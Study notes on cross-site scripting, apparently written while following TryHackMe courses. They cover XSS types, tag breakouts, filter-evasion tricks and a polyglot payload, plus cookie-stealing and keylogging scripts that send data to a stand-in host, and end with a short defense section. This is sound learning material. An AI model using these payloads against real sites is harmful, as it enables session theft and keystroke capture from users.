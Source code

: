 # XSS (Cross Site Scripting) Attacks

author:: Nathan Acks  
date:: 2022-07-11

Types of XSS attacks:

* Reflected (URL-based, no server-side storage)
* Stored
* DOM-based (really client-side)

DOM-based attacks are *client* side — with both reflected and stored XSS, the server is embedding the attack into the page that’s being rendered. For DOM-based attacks, it’s the *client* that inserts the malicious JavaScript into the page (even if the data was provided by the server). Ask yourself: “How did this get into the page? Did the server put it there (reflected/stored XSS), or did my client put it there (DOM-based XSS)?”

The canonical (but highly annoying) XSS PoC is:

```html
<script>alert('XSS');</script>
```

A much less annoying XSS test is to manipulate the `innerHTML` of page elements:

```html
<script>
	xssTest
		= document.querySelector("h1");
	xssTest.innerHTML = "XSS was here!";
</script>
```

## Tips for Writing JavaScript

JavaScript accepts back-ticks as a type of quotation mark, so we actually have three different marks to work with (single quote, double quote, and back-tick).

Sometimes you’ll need to break out of a tag that you’re being inserted into. Various options:

* Use `">` if you’re being inserted into an HTML attribute.
* Use `</pre>` or `</textarea>` for preformatted blocks and text areas.
* Use `';` followed by `;//` for direct JavaScript inserts. (Note that it’s only possible to insert `<script/>` tags if the JavaScript you’re abusing is being included from a file, as HTML parsers are greedy about the closing `</script>` tag.)

Most regular expressions and filters are only executed in a single pass. Thus, a regular expression that’s filtering out `<script>` and `</script>` tags can be circumvented by using `<s<script>cript>` and `</s</script>cript>`. That said, this trick doesn’t work for regular expressions that are removing single characters (for example, `<` and `>`).

You can also use the `onload` attribute to pull in JavaScript, though note that this is only functional the first time the page is loaded. This will often require you to close out the preceding attribute (`"`) and *leave off* the trialing `"` of the `onload` attribute in order for everything to work properly.

There’s also “polygot” strings which work in a variety of contexts. These have some pretty wild escaping going on; for example, the following (lightly modified from TryHackMe’s example) produces an “XSS” alert:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!><sVg/<sVg/oNloAd=alert('XSS')//>>
```

## Filter Evasion

### Bypass Simple Word Filtering

In general, you can break up strings to get around this.

```javascript
alert("H" + "ello")
```

The `eval()` function can be used to turn strings into function names if a function is filtered.

```javascript
eval("a" + "lert")("Hello")
```

It’s also possible (and safer, though if we’re breaking into things we probably care a lot less about safety) to use `window[]`.

```javascript
window["a" + "lert"]("Hello")
```

For really heavy filtering, use something nutso like JSFuck.

(Note that things like the JavaScript Obfuscator Tool won't always remove functions and strings, as they tend to be geared more towards thwarting script analysis than bypassing filters.)

Sometimes filters are applied in a case-sensitive fashion. While JavaScript *is* case-sensitive, URL schemes, HTML tag names, and HTML tag attributes are case-*insensitive* (so, `javascript:` is treated the same as `javaSCRIPT:`, `onclick` is treated the same as `ONCLICK`, etc.).

### Using iFrames and Images

Typically XSS attacks work by injecting `<script/>` tags, but it's also possible to inject JavaScript using the `<iframe/>` and `<img/>` tags by setting the `src` attribute to the `javacript:` pseudo-protocol. For example:

```html
<!-- iframe injection -->
<iframe src="javascript:alert('XSS');"/>

<!-- img injection -->
<img src="javascript:alert('XSS');"/>
```

Note, however, that JavaScript loaded in an `<iframe/>` won’t have access to the parent page’s DOM.

### Fallbacks Requiring User Interaction

Finally, `javascript:` URIs can also be included in anchor(`<a/>`) `href` attributes, as well as `onmouseover` and `onclick` attributes (which can be attached to almost any HTML tag). Getting these attacks to fire requires a user to interact with the modified tag, however.

## Attacks

### Accessing Browser Cookies

```html
<script>
	fetch(
		'https://example.com/log'
			+ '?cookie='
			+ btoa(document.cookie)
	);
</script>
```

### Keylogging

```html
<script>
	document.onkeypress = function(e) {
		fetch(
			'https://example.com/log'
				+ '?cookie='
				+ btoa(document.cookie)
				+ '&keypress='
				+ btoa(e.key)
		);
	}
</script>
```

Adding the user’s session cookie here allows us to tell whose keystrokes are whose!

### Port Scanning

[An example JavaScript port scanner (possibly broken).](https://github.com/aabeling/portscan)

### Website Defacement

You can access elements of the DOM using `document.getElementById("element-id")` or `document.querySelector("#element-id")`. The `querySelector()` method is a bit more flexible (you can use CSS-style selectors here) and should probably be preferred.

To get/set the content of an element, use the `innerHTML` method (to insert HTML directly into the DOM), or alternately `innerText` or `textContent` to set element text *only*.

Note that `<script/>` tags inserted by setting an element’s `innerHTML` are *not* executed, however!

## Defense

The key to defending against XSS is really to get your encoding right. User-generated code that’s passed off to JavaScript needs to be JavaScript-escaped first. User-generated code that’s written into the DOM needs to be HTML-escaped first. Know what the context is of your data, and escape/unescape appropriately when writing data from one context to another!

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: Cross-Site Scripting](tryhackme-cross-site-scripting.md)
* [Document.cookie](https://developer.mozilla.org/docs/Web/API/Document/cookie)
* [Document.querySelector()](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelector)
* [JSFuck](http://www.jsfuck.com/)
* [JavaScript Obfuscator Tool](https://obfuscator.io/)
* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
